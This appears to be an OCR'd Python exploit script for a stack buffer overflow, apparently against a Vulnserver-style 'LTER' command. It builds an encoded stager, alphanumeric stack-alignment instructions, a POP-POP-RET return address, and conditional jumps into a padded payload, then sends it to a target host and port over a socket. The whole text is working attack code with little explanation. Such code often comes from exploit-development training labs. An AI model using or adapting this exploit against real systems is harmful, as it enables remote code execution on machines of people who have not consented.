 ``` python
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'

PAYLOAD = (
    b'LTER .' +
    b'A' * 16 +
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x2d\x01\x0b' +   # SUB AX,0x0b01
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    STAGER +
    b'A' * (3554 - 4 - 79 - 16 - 8 - len(STAGER)) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    # This will trigger our stager
    fd.recv(1024)
```
